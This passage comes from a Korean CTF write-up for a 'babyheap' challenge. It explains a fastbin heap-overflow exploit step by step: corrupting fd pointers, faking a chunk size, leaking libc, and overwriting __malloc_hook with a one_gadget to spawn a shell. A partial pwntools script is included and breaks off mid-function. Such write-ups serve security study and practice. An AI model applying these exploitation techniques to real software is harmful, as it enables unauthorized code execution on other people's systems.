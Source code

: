 >_정말 마술같은 일이다.. 그래서 `magic gadget`이라고도 부른다._

하지만 이 `gadget`은 매우 민감하다 충족해야할 조건이 몇가지가 있다. 따라서 사용을 못하는 경우도 있다는 사실을 잊지 맙시다. 

구하는 방법은 아래의 주소를 참고.  
<https://www.lazenca.net/pages/viewpage.action?pageId=16810292>

## Exploit scenario

원래 바이너리 분석을 하겠지만, 이 문제는 정말 쉽다. 분석은 스스로 해보도록 합시다..  
간단하게만 말하자면, `allocate`, `fill`, `free`, `dump` 이렇게 4가지의 메뉴가 있는데 각자 그 메뉴의 충실한 역할을 수행합니다.  

다만 `fill`에서 데이터를 적는 크기를 제한을 두지 않아서 원하는 만큼 쓸 수가 있습니다. 쉽게 말하자면 `gets(buf)`의 상황과 비슷하다..  

따라서	  

	A[0x20]  
	B[0x20]  
	C[0x20]  
	D[0x20]  
	E[0x100]  

이런식으로 할당을 해준다음 `C,B`를 `free`하여 `B->C`를 만들어줍니다.   
그 다음 `A`에 `fill`을 이용하여 `C`의 `fd`를 한 바이트만 `0xc0`으로 덮어 `B->C->E`로 만들어줍니다.
(heap영역이 0x...00에 할당받기 때문에 E청크의 주소는 0x...c0입니다.)

`fastbin`에서 받아서 할당할때 해당 청크의 `size`를 검사하게 되는데, 현재 E의 청크사이즈는 `0x110`이기 때문에 이대로 할당을 받으면 프로그램이 죽어버립니다.

이를 해결하기위해 D에 fill을 이용하여 `E의 size`를 `0x31`로 만들어 줍니다. (실제 size는 0x30 flag값 때문에 0x31)  
이제 `allocate(0x20)`을 세번을 하게되면 `B, C, E` 순서대로 할당이 받아지게 됩니다.  
따라서 E청크가 중복으로 할당이 된 것입니다. 이를 이용하여 하나는 `free`를 해주어 contents를 main arena의 주소로 만들어주고 free하지 않은 나머지 하나로 `dump`를 하게되면 libc를 릭할 수 있습니다.  

똑같은 방법으로 `fd`를 `malloc_hook`으로 덮습니다. 여기서 문제는 아까와 같이 `size check`입니다. 청크의 size부분이 0 이거나 0x80이상이면 안됩니다.  

`malloc_ hook`은 libc내부에 있기때문에 근처에 0x7f....의 주소가 많이 있습니다. 이 `0x7f`를 이용하여 `size` 부분을 0x7f로 만드는 공간을 찾습니다.  
해당 공간에 할당을 받은 뒤 `malloc_ hook`을 `one_ gadget`으로 덮습니다.

그렇게 되면 `malloc()`이 호출되면 쉘이 따지게 됩니다!!

## Exploit code
##### ⚠삽질이 많습니다...

	from pwn import*
	
	s = process('./babyheap')
	one = 0x4526a
	
	def alloc(size):
	        print ("alloc size [%d]" %size)
	        s.recvuntil('Command: ')
	        s.sendline('1')
	        s.recvuntil('Size: ')
	        s.sendline(str(size))
	def fill(index,size,content):
	        print ("fill at [%d]" %index)
	        s.recvuntil('Command: ')
	        s.sendline('2')
	        s.recvuntil('Index: ')
	        s.sendline(str(index))
	        s.recvuntil('Size: ')
	        s.sendline(str(size))
	        s.recvuntil('Content: ')
	        s.send(content)
	def free(index):
	        print ("free [%d]" %index)
	        s.recvuntil('Command: ')
